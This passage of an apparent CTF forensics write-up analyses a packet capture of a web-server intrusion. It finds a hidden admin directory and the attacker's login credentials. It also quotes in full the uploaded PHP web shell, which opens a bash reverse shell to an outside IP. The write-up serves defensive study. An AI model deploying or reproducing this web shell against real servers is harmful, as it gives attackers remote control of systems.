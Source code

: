 ## Q7 - The website directories hidden from the public could serve as an unauthorized access point or contain sensitive functionalities not intended for public access. Can you provide name of the directory discovered by the attacker?

Looking through the packets and filtering with the status code 200 (HTTP OK Reply). I found the `admin` directory (Packet 88699).

## Q8 - Knowing which credentials were used allows us to determine the extent of account compromise. What's the credentials used by the attacker for logging in?

Following the previous packet we can observe some credentials and a HTTP code [302](https://stackoverflow.com/questions/2839585/what-is-correct-http-status-code-when-redirecting-to-a-login-page)

```
username=admin&password=admin123%21
HTTP/1.1 302 Found
```

We need to decode the password and we can found that the creds are the following `admin:admin123!`

## Q9 - We need to determine if the attacker gained further access or control on our web server. What's the name of the malicious script uploaded by the attacker?

With further analysis, we can notice a post request (Packet 88757) that the attacker has made to load his script on the system.

```
-----------------------------356779360015075940041229236053
Content-Disposition: form-data; name="fileToUpload"; filename="NVri2vhp.php"
Content-Type: application/x-php

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"111.224.250.131"/443 0>&1'");?>

-----------------------------356779360015075940041229236053
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------356779360015075940041229236053--
```

It's a simple reverse shell to the attacker IP address.

## Conclusion

This challenge was quite easy (approx 1H for the challenge and writeup) but I give myself the challenge to do a writeup for every exercice so here I am :).